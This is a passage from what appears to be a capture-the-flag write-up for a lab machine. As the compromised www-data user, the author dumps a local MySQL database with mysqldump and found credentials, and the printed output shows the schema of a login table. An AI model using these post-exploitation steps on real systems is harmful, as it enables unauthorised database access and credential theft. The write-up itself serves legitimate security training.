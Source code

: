 
### Database Dump

Unfortunately, , the binary I would typically use to connect to the local port and interrogate the DB, isn’t on the box. This is a case where having a full PTY shell on the box paid off, because when I typed , it gave a list of things that were on the box:`mysql``mys[tab][tab][tab]`


```mysql

    www-data@ubuntu:/var/www/Magic$ mysql
    mysql_config_editor        mysql_secure_installation  mysqladmin                 mysqld                     mysqldumpslow              mysqlrepair
    mysql_embedded             mysql_ssl_rsa_setup        mysqlanalyze               mysqld_multi               mysqlimport                mysqlreport
    mysql_install_db           mysql_tzinfo_to_sql        mysqlbinlog                mysqld_safe                mysqloptimize              mysqlshow
    mysql_plugin               mysql_upgrade              mysqlcheck                 mysqldump                  mysqlpump                  mysqlslap
```

    

It would have been not that hard to upload [Chisel](https://github.com/jpillora/chisel) and create a tunnel from my host to the MySQL port (3306) listening on localhost on Magic, but jumped out as an alternative. Once I figured out the syntax, it worked like a charm:`mysqldump`

    www-data@ubuntu:/$ mysqldump --user=theseus --password=iamkingtheseus --host=localhost Magic
    mysqldump: [Warning] Using a password on the command line interface can be insecure.              
    -- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)                                           
    --                                               
    -- Host: localhost    Database: Magic                                                             
    -- ------------------------------------------------------                             
    -- Server version       5.7.29-0ubuntu0.18.04.1                                       
    
    /*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;                                 
    /*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;                               
    /*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;                                 
    /*!40101 SET NAMES utf8 */;              
    /*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
    /*!40103 SET TIME_ZONE='+00:00' */;              
    /*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
    /*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
    /*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
    /*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;
    
    --                                                       
    -- Table structure for table `login`                     
    --                                                       
                                                             
    DROP TABLE IF EXISTS `login`;                            
    /*!40101 SET @saved_cs_client     = @@character_set_client */;
    /*!40101 SET character_set_client = utf8 */;
    CREATE TABLE `login` (                                   
      `id` int(6) NOT NULL AUTO_INCREMENT,                   
      `username` varchar(50) NOT NULL,                       
      `password` varchar(100) NOT NULL,                      
      PRIMARY KEY (`id`),                                    
      UNIQUE KEY `username` (`username`)                     
    ) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=latin1;
    /*!40101 SET character_set_client = @saved_cs_client */;
    
